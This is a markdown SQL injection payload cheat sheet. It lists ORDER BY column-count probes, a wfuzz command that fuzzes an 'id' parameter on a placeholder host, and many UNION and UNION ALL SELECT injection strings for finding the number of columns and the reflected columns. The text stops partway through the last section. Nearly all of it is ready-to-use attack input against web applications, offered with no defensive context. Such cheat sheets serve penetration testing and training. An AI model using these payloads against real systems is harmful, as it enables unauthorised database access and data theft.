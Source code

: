 

# Payload

## Enumerate NUMBER of columns
- ORDER BY
	```
	# Observer the http response size
	wfuzz -c -z range,1-10 "http://meh.com/index.php?id=1 order by FUZZ"
	```
	```
	id=1 ORDER BY 1
	id=1 ORDER BY 2
	id=1 ORDER BY 3
	id= ORDER BY 1,2,3,4,5,6
	```
- UNION
	```
	id=-1' UNION SELECT 1 -- -
	id=-1' UNION SELECT 1,2 -- -
	id=-1' UNION SELECT 1,2,3 -- -

	id=1' UNION SELECT 1 #
	id=1' UNION SELECT 1,2 #
	id=1' UNION SELECT 1,2,3 #

	id=1' UNION SELECT 1 -- -
	id=1' UNION SELECT 1,2 -- -
	id=1' UNION SELECT 1,2,3 -- -
	
	id=1 UNION SELECT 1 -- -
	```
- UNION ALL
	```
	id=1' UNION ALL SELECT 1 #
	id=1' UNION ALL SELECT 1,2 #
	id=1' UNION ALL SELECT 1,2,3 #
	
	id=1' UNION ALL SELECT 1 -- -
	id=1' UNION ALL SELECT 1,2 -- -
	id=1' UNION ALL SELECT 1,2,3 -- -

	id=-1' UNION ALL SELECT 1 -- -
	id=-1' UNION ALL SELECT 1,2 -- -
	id=-1' UNION ALL SELECT 1,2,3 -- -
	```

## Enumerate REFLECTED columns
- UNION
	```
	id=-1' UNION SELECT 1 -- -
	id=-1' UNION SELECT 1,2 -- -
	id=-1' UNION SELECT 1,2,3 -- -
